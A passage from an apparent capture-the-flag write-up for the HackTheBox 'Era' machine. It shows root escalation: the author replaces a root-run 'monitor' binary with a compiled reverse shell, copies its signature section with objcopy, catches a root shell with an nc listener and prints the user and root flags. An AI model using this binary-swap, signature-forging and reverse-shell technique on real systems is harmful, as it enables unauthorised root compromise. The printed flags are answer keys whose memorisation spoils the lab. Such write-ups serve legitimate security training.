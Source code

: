 compile the file:
```bash                                                                                                                                                           
┌──(agonen㉿kali)-[~/htb/Era]
└─$ gcc rev_shell.c -o rev_shell 
```

And after uploading, we backup the old `monitor`, and put our reverse_shell as monitor:
```bash
eric@era:/opt/AV/periodic-checks$ mv monitor monitor_backup
eric@era:/opt/AV/periodic-checks$ mv rev_shell-SuabsIKu monitor
eric@era:/opt/AV/periodic-checks$ ls -la
total 48
drwxrwxr-- 2 root devs  4096 Oct 24 12:20 .
drwxrwxr-- 3 root devs  4096 Jul 22 08:42 ..
-rwxrwxr-x 1 eric eric 16216 Oct 24 12:19 monitor
-rwxrw---- 1 root devs 16544 Oct 24 12:20 monitor_backup
-rw-rw---- 1 root devs   307 Oct 24 12:20 status.log
```

We want also to add the same `text_sig_section.bin` to our file, so let's do this:
```bash
objcopy --dump-section .text_sig=text_sig_section.bin /opt/AV/periodic-checks/monitor_backup
objcopy --add-section .text_sig=text_sig_section.bin /opt/AV/periodic-checks/monitor /opt/AV/periodic-checks/monitor 
```

![add signature](image-15.png)

And now we just wait...
```bash
┌──(agonen㉿kali)-[~/htb/Era]
└─$ nc -nvlp 770
listening on [any] 770 ...
connect to [10.10.16.49] from (UNKNOWN) [10.10.11.79] 56164
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
8458ba19b1730c50a8e1fac016f66aad
```

**User Flag:*****`5b87cb9bbf09bbac226e02ba80830225`***

**Root Flag:*****`8458ba19b1730c50a8e1fac016f66aad`***
